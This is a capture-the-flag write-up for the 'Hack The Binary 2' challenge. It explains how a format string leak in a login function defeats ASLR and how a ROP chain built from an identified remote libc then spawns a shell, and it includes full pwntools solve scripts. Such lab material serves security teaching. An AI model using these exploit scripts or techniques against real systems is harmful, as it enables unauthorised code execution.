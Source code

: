 # Hack The Binary 2


<div class="hidden">
    keywords: PwC CTF: Hack A Day 2023 - Securing AI, pwn, format string, ROP
</div>

## TL;DR

Format string to defeat ASLR, ROP to get RCE

## Initial Analysis

The given binary file is almost similar to `Hack the Binary 1`, but without the
flag lying around in the memory and array OOB. Instead, the `login()` function
is now susceptible to format string attack. Furthermore, it is also subjected to
buffer overflow as the `scanf` format is not restricted by length.

```c
__int64 login() {
  __int64 result; // rax
  char format; // [rsp+Ah] [rbp-6h]

  do {
    printf("Please Enter Password (4 digit numbers): ");
    __isoc99_scanf("%s", &format);
    printf("Your Password is ");
    printf(&format);  // <=== format string !!!
    putchar(10);
    result = password_checker(&format);
  } while ( (_DWORD)result != 1 );
  return result;
}
```

## Solution

The first step is to leak the stack and look for any interesting address,
particularly the one that points to libc memory space since we want to call
`system()` later on to pop a shell. The format string that would be discussed
in this writeup is `%n$llx` where `n` specify the stack offset and `llx` for
64-bit value in hex format.

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

for i in range(1, 16):
    leak = printf_leak(i)
    log.info(f"{i} {leak:#x}")

io.interactive()
```

Based on the result, the third entry is a libc address value.

![printf leak result](./img/1.png)

{{< alert "circle-info" >}}
One could also double check where is the libc memory region via `/proc/<pid>/maps`
![proc maps](./img/2.png)
{{< /alert >}}

Since the challenge does not come with a libc file, we could not directly compute
the offset between the leaked address with the base address of libc. The local
libc used in this writeup is of version `2.35-0ubuntu3`. Now, if we try to run
it against the remote server, we could see that the lowest 3 nibbles (hex digit)
is different (local is `a37`, remote is `a77`). We only compare the lowest 3
nibbles since ASLR does not affect these 3. This means that the remote server
is using a different libc version.

![remote result](./img/4.png)

We need to check if the leaked address belongs to any libc function such that
we could use the known symbol as a lookup value on libc database like:

- <https://libc.rip>
- <https://libc.blukat.me>

Now, if we attached gdb to the process (that is running local binary), we could
see that the address lies within `__GI___libc_write`.

![gdb](./img/3.png)

If we try to use the symbol name `__GI___libc_write` with the address
`0xa37-23 = 0xa20`, [libc.rip](https://libc.rip) returns us results. However,
there is no `2.35-0ubuntu3`. This means that the symbol name is not quite right.

![libc_rip](./img/6.png)

If we try to break at the beginnning of the function, `gef` (gdb plugin)
labels the function as `write`.

![gef](./img/5.png)

Now, if we use replace the symbol name with `write` instead, we get more results
and `2.35-0ubuntu3` is among them.

![libc_rip2](./img/7.png)

Next, we just need to replace the address value with the one that we got from
remote server, i.e., `0xa77-23 = 0xa60`. If we diff the results between
`__GI___libc_write 0xa60` and `write 0xa60`, we could deduce that `libc6_2.35-0ubuntu3.4_amd64`
is probably the correct one. Click on the result and we could see various offsets,
e.g., `write`, `system`, `str_bin_sh`, etc. With the offset of `write`, we could
compute the libc base address on the remote side and then use the base address
to locate `system` function address within the process memory and various other
stuffs. Another thing that we need is also a `pop rdi; ret;` gadget which does not
exist in the binary file, but is available from the libc file.

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./vuln2", checksec=False)
libc = ELF("./libc.so.6", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc localhost 1337"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}


def printf_leak(idx):
    payload = f"%{idx}$llx".encode()
    io.sendline(payload)
    io.recvuntil(b"is ")
    leak = int(io.recvline(keepends=False), 16)
    return leak


io = start()

# for i in range(1, 16):
#     leak = printf_leak(i)
#     log.info(f"{i} {leak:#x}")

libc_leak = printf_leak(3)
libc.address = libc_leak - 0x114a60 - 23
log.info(f"{libc.address=:#x}")
pop_rdi = libc.address + 0x001bc0a1
ret = pop_rdi + 1
bin_sh = next(libc.search(b"/bin/sh\x00"))

payload = b"A" * 6
payload += p64(elf.bss(0xc00))
payload += flat(
    pop_rdi, bin_sh,
    ret,  # stack alignment
    libc.sym["system"]
)
io.sendline(payload)
io.sendline(b"1235")

io.interactive()
```
